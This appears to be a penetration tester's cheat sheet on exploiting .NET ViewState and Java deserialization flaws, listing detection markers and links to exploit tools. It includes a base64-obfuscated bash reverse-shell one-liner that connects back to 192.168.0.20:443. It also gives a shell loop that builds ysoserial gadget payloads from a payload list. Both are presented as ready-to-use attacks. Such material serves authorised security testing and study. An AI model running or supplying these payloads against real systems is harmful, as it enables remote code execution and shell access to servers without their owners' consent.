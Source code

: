 #### Exploitation
-> Insecure - Machine Key for RCE  
https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization/exploiting-__viewstate-parameter.md  

#### Tools
https://github.com/0xacb/viewgen  
https://github.com/pwntester/ysoserial.net  
https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper
https://github.com/tyranid/ExploitRemotingService

### Other Docs
https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net#PoC  

### Java Deserialization
#### Identify
-> import java.io.serializable  
-> binary with ac ed 00 05  
-> base64 starts with rO0AB in web applications
  
#### Java Lang Runtime Exec - java.lang.Runtime.exec()
  
bash -c {echo,payload_base64}|{base64,-d}|{bash,-i}  
https://www.bugku.net/runtime-exec-payloads/

`python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type jlre`  
```
bash -c {echo,YmEkKClzaCAtJCgpaSAnL2Rldi90Y3AvMTkyLjE2OC4wLjIwLzQ0MyAwPiYxJw==}|{base64,-d}|{bash,-i}
```
https://github.com/rodolfomarianocy/hackshell

#### Tools
https://github.com/frohoff/ysoserial  
https://github.com/NickstaDB/SerializationDumper  
https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java
  
#### Script

```
while read payload; 
do echo "$payload\n\n"; 
java -jar ysoserial.jar $payload "sleep 5" | base64 | tr -d '\n' > $payload.ser;  
echo "-----------------Loading-----------------\n\n"; done < payloads.txt
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/java/gserial.sh  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/java/payloads.txt

#### Signals
-> Bad Sign  
ClassNot FoundException
